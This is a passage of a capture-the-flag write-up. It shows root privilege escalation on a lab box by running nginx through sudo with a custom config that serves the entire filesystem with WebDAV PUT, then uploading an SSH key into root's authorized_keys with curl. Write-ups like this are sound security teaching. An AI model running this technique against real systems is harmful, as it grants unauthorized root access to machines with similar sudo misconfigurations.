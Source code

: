 ```
user root;
events {
    worker_connections 512;
}
http {
    server {
        listen 8888;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

I'll save it as `privesc.conf`.

Then, I'll start a Nginx web server with this config.

```sh
activemq@broker:~$ sudo "/usr/sbin/nginx" -c "/tmp/privesc.conf"
```

Now that the web server is running with elevated rights, we have access to the
whole filesystem, and we can upload whatever we want!

### Exploitation

We could just retrieve the root flag, but let's obtain a reverse shell for good
measure.

We can access and upload any files, however we can't execute them. Luckily, SSH
is enabled on this box, so we simply have to generate keys, add the public key
to `/root/.ssh/authorized_keys`, and are able to authenticate!

```sh
activemq@broker:~$ curl "http://127.0.0.1:8888/root/.ssh/authorized_keys" -X "PUT" -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPOKuV2uc+Fpm/vSwZpu0fcDN0fMd+gHvRLW+aUG/h8n"
```

Now we can use SSH to get a shell as `root`!

## Getting a lay of the land

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@broker:~# cat "/root/root.txt"
```

```
248309989e26c90495e6dd74fe9953d7
```
